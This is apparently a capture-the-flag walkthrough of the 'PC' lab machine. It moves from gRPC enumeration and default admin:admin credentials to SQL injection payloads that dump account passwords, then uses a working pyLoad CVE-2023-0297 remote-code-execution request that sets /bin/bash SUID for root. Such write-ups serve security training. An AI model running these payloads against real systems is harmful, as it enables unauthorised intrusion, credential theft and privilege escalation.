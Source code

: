 # easy - PC Machine

## User flag

Let's scan the network:
`➤ sudo nmap -nv -Pn -sC -sV -O -T4 -oA nmap-scan pc.htb`

Which only reports port 22/tcp open:
```bash
➤ cat nmap-scan.nmap | ag open
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
```
Let's try scanning all ports TCP and UDP:
- -sS -p- pc.htb
- -sU -p- pc.htb

I've found this:
- `50051/tcp open  unknown`

I don't get it yet, there is something on that 50051/tcp port:
```bash
➤ echo wtf | nc pc.htb 50051
???%

➤ curl http://pc.htb:50051
curl: (1) Received HTTP/0.9 when not allowed

➤ curl -k https://pc.htb:50051
curl: (35) OpenSSL/3.0.9: error:0A00010B:SSL routines::wrong version number
```
After a quick check in wikipedia, it seems that port 50051 is used by gRPC, so what is it?:
> gRPC (gRPC Remote Procedure Calls ) is a cross-platform open source high performance remote procedure call (RPC) framework. gRPC was initially created by Google, which used a single general-purpose RPC infrastructure called Stubby... It uses HTTP/2 for transport, ...

So lets get a client `grpc_cli`:
```bash
# Listing what we have in that service
➤ grpc_cli ls pc.htb:50051
SimpleApp
grpc.reflection.v1alpha.ServerReflection

# Listing what we have in SimpleApp:
➤ grpc_cli ls pc.htb:50051 SimpleApp -l
filename: app.proto
service SimpleApp {
  rpc LoginUser(LoginUserRequest) returns (LoginUserResponse) {}
  rpc RegisterUser(RegisterUserRequest) returns (RegisterUserResponse) {}
  rpc getInfo(getInfoRequest) returns (getInfoResponse) {}
}

# Checking RegisterUserRequest structure
➤ grpc_cli type pc.htb:50051 RegisterUserRequest
message RegisterUserRequest {
  string username = 1;
  string password = 2;
}

# Trying to register
➤ grpc_cli call pc.htb:50051 SimpleApp.RegisterUser ''
connecting to pc.htb:50051
message: "username or password must be greater than 4"
Rpc succeeded with OK status

➤ grpc_cli call pc.htb:50051 SimpleApp.RegisterUser 'username: "foobar", password: "foobar"'
connecting to pc.htb:50051
message: "Account created for user foobar!"
Rpc succeeded with OK status

# Logging
➤ grpc_cli call pc.htb:50051 SimpleApp.LoginUser 'username: "foobar", password: "foobar"'
connecting to pc.htb:50051
message: "Your id is 732."
Received trailing metadata from server:
token : b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiZm9vYmFyIiwiZXhwIjoxNjg2MzcwMjQ2fQ.VVFuG6VhJhRSeNJdckmOAtTdlOTjDzeNlQ3ri6rLt_A'
Rpc succeeded with OK status

# Testing getInfo
➤ grpc_cli type pc.htb:50051 getInfoRequest
message getInfoRequest {
  string id = 1;
}
➤ grpc_cli call pc.htb:50051 SimpleApp.getInfo 'id: "732"'
connecting to pc.htb:50051
message: "Authorization Error.Missing \'token\' header"
Rpc succeeded with OK status
```

Ok, so the deal is that `grpc_cli` doesnt' support headers, we cannot set token, I already tried. Let's use a python client, but for that we need to get the `.proto` file for the service.

```bash
➤ grpcurl -plaintext pc.htb:50051 describe SimpleApp > protos/SimpleApp.proto
➤ file protos/SimpleApp.proto
protos/SimpleApp.proto: ASCII text

# I had to modify it like this:
➤ cat protos/SimpleApp.proto
syntax = "proto3";
message getInfoRequest {
  string id = 1;
}
message getInfoResponse {
  string message = 1;
}
service SimpleApp {
  rpc getInfo ( .getInfoRequest ) returns ( .getInfoResponse );
}

➤ python -m grpc_tools.protoc -I./protos --python_out=. --grpc_python_out=. ./protos/SimpleApp.proto
```
Up to this point I wanted to run a gRPC python client which was failing for me with multiple tries & configurations. After googling I've found this tool `grpcui` which proxies this grpc http2 to a regular http browsing on your default webbrowser.

{{< limg "/i/2023-06-09_21-57.png" "Browsing gRPC via web UI" >}} 

... and `curl` works now! :smile:
```bash
➤ curl -I 'http://127.0.0.1:45031/'
HTTP/1.1 200 OK
Cache-Control: private, must-revalidate
Content-Length: 7295
Content-Type: text/html; charset=utf-8
Etag: udpVnrYoZ_4aBEHdR5XGR3NBKthwmecSkANDb7yNGyM
Set-Cookie: _grpcui_csrf_token=idCj6O8TOcjLeSiX8ktXOifq_STTps1-PeGVHvbMT9U
Date: Sat, 10 Jun 2023 01:59:45 GMT
```

I wanted to try to create an user foobar and explore from there but I tested that `admin:admin` are valid **default** credentials!!

So the problem is that this id changes over the time and also the token becames invalid, so I have to automate it to get a new fresh id and its token on each request. This time I will just work with `grpcurl`.

```bash
# The bash script
grpcurl \
  -plaintext \
  -d '{"id": "512"}' \
  -rpc-header 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODYzNzM2NTB9.kkejZIKZXMjf9PI1LfniU7PUwCPGWmDCJsNMml3TbWk' \
  pc.htb:50051 SimpleApp.getInfo

{
  "message": "Will update soon."
}
```

Here the automated code:
```bash
response=$( grpcurl -v -plaintext \
  -d '{"username":"admin", "password":"admin"}' \
  pc.htb:50051 SimpleApp.LoginUser | ag 'token|message'
)

idnumber=$(echo "${response}" | sed 's/token.*//' | sed -n 's/[^0-9]*\([0-9]\+\).*/\1/p')
token=$(echo "${response}" | sed -n "s/.*b'\([^']*\)'.*/\1/p")

payload='{"id":"'"${idnumber} UNION SELECT 12345"'"}'
grpcurl \
  -plaintext \
  -d "${payload}" \
  -rpc-header 'token: '"${token}" \
  pc.htb:50051 SimpleApp.getInfo


{
  "message": "12345"
}
```

So now I will try different payloads:
```bash
# Checking error info leak
payload='{"id":"'"${idnumber}; SELECT 0"'"}'
ERROR:
  Code: Unknown
  Message: Unexpected <class 'sqlite3.Warning'>: You can only execute one statement at a time.

# Checking version
payload='{"id":"'"${idnumber} UNION SELECT sqlite_version()"'"}'
{ "message": "3.31.1" }

# SQLi-ing
payload='{"id":"'"-1 union select group_concat(username) from accounts"'"}'
{ "message": "admin,sau" }

payload='{"id":"'"-1 union select group_concat(password) from accounts"'"}'
{ "message": "admin,HereIsYourPassWord1431" }
```

And we've got sau's ssh access:
```bash
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)
sau@pc:~$ ls
user.txt
```

## Root flag
```bash
sau@pc:~$ sudo -l
[sudo] password for sau:
Sorry, user sau may not run sudo on localhost.
```

Checking network:
```bash
sau@pc:~$ netstat -tlpn | grep LISTEN
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::50051                :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
That 8000/tcp is running a PyLoad app (SSH Proxy to your local is required here):
```bash
➤ curl -s -L http://localhost:8000 | ag pyload
<title>Login - pyLoad </title>
      <img alt="Pyload" src="/_themes/modern/img/pyload-logo.png">
```

... and as a magic I found a github repo created 5 months ago :smile: **CVE-2023-0297: Pre-auth RCE in pyLoad** https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad where PyLoad is using a vulnerable function `eval_js()` where we can send malicious payload remotely without authentication at all :smile: - let's make /bin/bash suid.

`chmod u+s /bin/bash` = `%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68`
```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:8000/flash/addcrypted2'
```
And voilá:
```bash
sau@pc:~$ ls -ltra /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
sau@pc:~$ ls -ltra /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
sau@pc:~$ /bin/bash -p
bash-5.0# id
uid=1001(sau) gid=1001(sau) euid=0(root) groups=1001(sau)
```
